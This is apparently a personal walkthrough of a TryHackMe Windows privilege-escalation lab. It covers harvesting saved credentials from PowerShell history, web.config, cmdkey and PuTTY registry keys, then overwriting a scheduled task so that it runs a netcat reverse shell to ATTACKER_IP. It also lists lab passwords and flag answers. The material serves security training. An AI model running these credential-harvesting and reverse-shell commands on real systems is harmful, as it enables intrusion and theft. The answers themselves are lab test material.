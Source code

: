 # Try Hack Me: Windows Privilege Escalation Complete Write-up
I'm writing my own write-up on the lab named [Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20) from [tryhackme](https://tryhackme.com) which is pretty tough to solve and fun to learn. Let's start! 

![png](https://cyb3r53c.com/wp-content/uploads/2023/03/PrivilegeEscalation.png)

## Task 1: Introduction
During a penetration test, you will often have access to some Windows hosts with an unprivileged user. Unprivileged users will hold limited access, including their files and folders only, and have no means to perform administrative tasks on the host, preventing you from having complete control over your target.

This room covers fundamental techniques that attackers can use to elevate privileges in a Windows environment, allowing you to use any initial unprivileged foothold on a host to escalate to an administrator account, where possible.

If you want to brush up on your skills first, you can have a look through the [Windows Fundamentals Module](https://tryhackme.com/module/windows-fundamentals) or the [Hacking Windows Module](https://tryhackme.com/module/hacking-windows-1).

### Q: Click and continue learning!
#### Answer: No answer needed

## Task 2: Windows Privilege Escalation
Privilege escalation involves leveraging existing access to a system to gain higher privileges, often aiming for administrative control. This can be done by exploiting weaknesses such as misconfigurations, excessive privileges, vulnerable software, or missing security patches.

Windows users are categorized as:
- Administrators: Have full system control.
- Standard Users: Have limited access and cannot make major changes.

Additionally, special built-in accounts exist:
- SYSTEM: Higher privileges than administrators.
- Local Service: Runs services with minimal privileges.
- Network Service: Runs services using network authentication.

### Q.1: Users that can change system configurations are part of which group?
#### Answer: Administrators
### Q.2: The SYSTEM account has more privileges than the Administrator user (aye/nay)
#### Answer: aye

## Task 3: Harvesting Passwords from Usual Spots
1. Unattended Windows Installations
  Administrators often leave credentials in configuration files used for automated installations:
  - C:\Unattend.xml
  - C:\Windows\Panther\Unattend.xml
  - C:\Windows\system32\sysprep.inf
2. PowerShell History
  PowerShell logs executed commands, including those containing passwords. Retrieve them via:
  ```type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```
3. Saved Windows Credentials
   Windows allows users to store credentials, which can be listed with: ```cmdkey /list```
   Use stored credentials with: ```runas /savecred /user:admin cmd.exe```
4. IIS Configuration Files
  Web server configurations may contain stored passwords in web.config:
    - C:\inetpub\wwwroot\web.config
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
  Search for database credentials: ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString```
5. PuTTY Stored Credentials
  PuTTY stores proxy credentials in the registry. Retrieve them with: ```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```
### Q.1: A password for the julia.jones user has been left on the Powershell history. What is the password?

To read the Powershell history enter the following command: ```type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```

![Reading Powershell history](images/julia.jones%20password.png)
There on line 6 we find her password.
#### Answer: ZuperCkretPa5z

### Q.2: A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?
According to the task, there are two possible locations where we can find these web.config files:
- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
The first one does not exist on the system, but if we run the command with the second location we find a connectionString:
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
![Reading web.config](images/reading_web.config_file.png)
In the connectionString we find this including the password:
**add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB"**
#### Answer: 098n0x35skjD3

### Q.3: There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.
The instructions tell use exactly what to do. Start with cmdkey to see for which users we have saved credentials:```cmdkey /list```
![cdmkey list credential](images/cmdkey.png)

Sure enough, we have a saved credential for mike. Now run the following command to run cmd with his credentials: 
```runas /savecred /user:mike.katz cmd.exe```
It will open **cmd.exe**. In cmd, search for a file named **flag.txt** like this: ```dir C:\flag.txt /s /p``` 

Change to that directory with: ```cd C:\Users\mike.katz\Desktop```, then list files in that directory: ```dir``` and read the text file following command: ```type flag.txt```

![Flag](images/flag.png)
#### Answer: THM{WHAT_IS_MY_PASSWORD}

### Q.4: Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?
This one is also literally described in the task. Run the following command to search under the following registry key for ProxyPassword:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
![saved PuTTY session](images/password_thom.smith.png)

#### Answer: CoolPass2021

## Task 4: Other Quick Wins
This task is all about abusing Task Scheduler tasks that have been configured to run an executable file that we can change to run a netcat reverse shell.

Privilege escalation can be facilitated through misconfigurations, such as those found in scheduled tasks or Windows installer files. These techniques are often more relevant in Capture The Flag (CTF) events than real penetration testing engagements.
1. Scheduled Tasks:
  - Misconfigured Task: A scheduled task may run a binary you can modify. You can list tasks with schtasks /query and check the file permissions using icacls.
  - Privilege Escalation: If a scheduled task’s executable is accessible, modify it to execute a reverse shell. For example, replace the task’s binary with a command to spawn a reverse shell using nc64.exe.
  - Triggering the Task: Once the task is modified, use schtasks /run to manually execute it and get a reverse shell with the user privileges of the scheduled task.
2. AlwaysInstallElevated:
  - Windows Installer: MSI files can be set to run with elevated privileges if registry keys are configured. This allows unprivileged users to run an MSI that executes with administrator rights.
  - Registry Check: Use reg query to check if the necessary registry keys are set. If they are, generate a malicious MSI file using msfvenom and execute it with msiexec to get a reverse shell.
### Q.1: What is the taskusr1 flag?
Let’s start by getting info on the scheduled task called “vulntask”.
```schtasks /query /tn vulntask /fo list /v```

As discussed in the task description, we can edit the file if have the correct permissions. To check these we run the following command: ```icacls c:\tasks\schtask.bat```

Now all we need to do is echo the nc64 command to the schtask.bat file to overwrite its content. Remember to change the ip.
```echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat```

And setup a listener on your attacker machine: ```nc -lvnp 4444```

Finally, run the scheduled task with: ```schtasks /run /tn vulntask```

And yes, we got a connection:

And find the flag:

#### Answer: THM{TASK_COMPLETED}
